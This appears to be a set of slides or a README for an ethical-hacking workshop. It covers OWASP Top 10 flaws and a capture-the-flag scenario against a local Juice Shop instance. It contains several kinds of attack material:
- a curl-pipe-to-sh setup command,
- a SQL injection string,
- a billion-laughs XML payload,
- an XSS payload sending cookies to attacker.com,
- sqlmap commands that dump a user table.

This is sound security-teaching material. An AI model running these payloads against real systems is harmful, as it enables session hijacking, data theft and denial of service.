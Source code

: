 ## Welcome !

```shell
curl -fsSL http://<the server ip>:81/kali-setup.sh | sh
```

---

### Hacking

Hacking is an unauthorized intrusion into a computer or an information system. The malicious hacker may alter system or security features to accomplish a goal that differs from the original purpose of the system.

### Ethical hacking

Ethical hacking refers to the act of locating weaknesses and vulnerabilities of computer and information systems by duplicating the actions of malicious hackers.

---

### Penetration testing

Penetration Testing (pentest) is designed to find the maxium of vulnerabilities. The tester attempts to exploit the vulnerabilities to ensure they are not false positives.

### Red team testing

Red team testing is similar to a pentest in many ways but is more targeted. Red team tests are testing the organization capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible.

---

### Kali Linux

Kali Linux is a Debian-derived Linux distribution designed for digital forensics and pentests.

It is loaded with more than 600 pentest programs, for instance:
 * nmap, a port scanner
 * wireshark, a network packet analyzer
 * John the ripper, a password cracker
 * Aircrack-ng, a wifi pentester

---

### Common web application vulnerabilities

----

#### Injection

When we use user-supplied data in a query, command, interpreter, etc.

Vulnerabilities:

```java
String query = "SELECT * FROM accounts WHERE custID='"
    + request.getParameter("id") + "'";

Query HQLQuery = session.createQuery("FROM accounts WHERE custID='"
    + request.getParameter("id") + "'");
```

Attack:
> http://example.com/app/accountView?id='or '1'='1

----

#### Broken Authentication

When we don't correctly implement authentication flow (technically and/or functionnaly).

Vulnerabilities:
 * Permits brute force, credential stuffing.
 * Permits default, well-known passwords: 'admin/admin', 'admin/admin123', etc.
 * Uses weak credential recovery/forgotten-password processes.

----

#### XML External Entities

When we accept XML input or XML uploads or we use user-supplied data in XML.

Attacks:
 * The attacker attempts a denial-of-service attack with a billion laughs attack:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

----

#### Broken Access Control

When we don't check that a user has the privileges and control to access the requested data.

Attacks:
 * The attacker change the account URL in his/her browser to access the account of someone else:
> http://myawesomeapp.net/account/234/edit
> http://myawesomeapp.net/account/356/edit

----

#### Cross-Site Scripting

When we forget to escape an untrusted source of data.

Attacks:
 * The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```java
(String) page += "<input name='creditcard' type='TEXT' value='"
    + request.getParameter("CC") + "'>";
```

 The attacker modifies the ‘CC’ parameter in the browser to:

 ```javascript
 "><script>document.location="
    + "'http://www.attacker.com/cgi-bin/cookie.cgi"
    + "? foo='+document.cookie</script>"
 ```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

----

More information about web application vulnerabilities with [OWASP TOP 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf).

----

#### CVE

A CVE is a common name for a single security vulnerability so that we can identify and talk about issues sanely (e.g. "that OpenSSL vulnerability, from like 2009, the DoS one" vs. "CVE-2009-3555"). CVE allows multiple vendors, products, and customers to properly track security vulnerabilities and make sure they are dealt with.

ex: [CVE-2017-1653](https://duckduckgo.com/?q=CVE-2017-1653)

---

### The scenario

Your new client is a brand new healthcare software editor and it wants to comprise its well-etablished competitor: `Medical Software`. Your client asks two different teams to do the "dirty work", but only the most efficient will earn the cryptomoney pride.

Your team already tried a lot of remote attacks to gain access to the corporate network but everything failed, you decided to change your strategy.

----

You made a fake profile on a famous professional social network.

----

![profile](profile.png)

----

You discovered that a lot of Medical Software employees are sharing `Juice Shop` pages and promotions over the social network, you think it could be a good vector of attack.

---

### CTFd

To track the team progresses, your client set up a CTFd server, it is a Capture The Flag framework.

---

### Automated attacks

`nikto` is a web server scanner.

```
# update the database
nikto -update

# run the scan
nikto -host http://localhost:3000
```

`sqlmap` is an automatic SQL injection tool.

```
# extract critical information about the database
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3

# list the tables
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=3 --risk=3 --tables --dbms=SQLite

# dump the Users table
sqlmap --ignore-code=401 --url=http://localhost:3000/rest/user/login --data='{"email":"*", "password":"*"}' --level=5 --risk=3 --dump -T Users --dbms=SQLite
```
